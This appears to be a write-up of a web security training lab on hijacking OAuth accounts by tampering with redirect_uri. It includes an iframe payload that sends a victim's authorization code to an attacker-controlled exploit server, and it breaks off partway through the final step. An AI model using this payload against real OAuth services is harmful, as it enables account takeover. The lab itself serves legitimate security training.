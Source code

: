 Title: OAuth account hijacking via redirect_uri
Level: PRACTITIONER
Desc:  This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.
To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user carlos.
The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
You can log in with your own social media account using the following credentials: wiener:peter. 

# Walkthrough:
Authorization request using OAuth 2 looks like this in our scenario:
<img width="1276" height="395" alt="image" src="https://github.com/user-attachments/assets/e7d81356-4377-40e7-8916-2b2c12c612a5" />

After requesting `auth?client_id=droxfqd5fgdvrzu76m57k&redirect_uri=https://0afd00aa03225e9980e003f7008800c9.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email` I instantly get redirection to:
`https://0afd00aa03225e9980e003f7008800c9.web-security-academy.net/oauth-callback?code=_UTscUfogrYUTH1AGzaos1W98A8GvMeuion6dDDrETm`.

I can see my code.

Notice, that you can change redirect_uri to any and it is reflected in response with code.

<img width="1252" height="396" alt="image" src="https://github.com/user-attachments/assets/d8388460-699c-4c1b-afaf-e029134c4b3b" />

On the exploit server I make:
`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

`<iframe src="https://oauth-0acb0075031b5e3b807a01f60218005f.oauth-server.net/auth?client_id=droxfqd5fgdvrzu76m57k&redirect_uri=https://exploit-0abe00cf03805ed68065021b01a600eb.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

Sending this to victim and we have their code:
<img width="1084" height="360" alt="image" src="https://github.com/user-attachments/assets/08aaec59-1b1a-40af-9b2c-0e673176c79a" />

`/?code=KYzvzmxIWsZeqRm2YZcObNYugHBjDBfNJ-BzJ1mXQEJ`

Now we need to use this code in authentication request.

This request being edited.
<img width="905" height="326" alt="image" src="https://github.com/user-attachments/assets/9e298728-c901-4b6e-8ebc-beef4aebf5f7" />


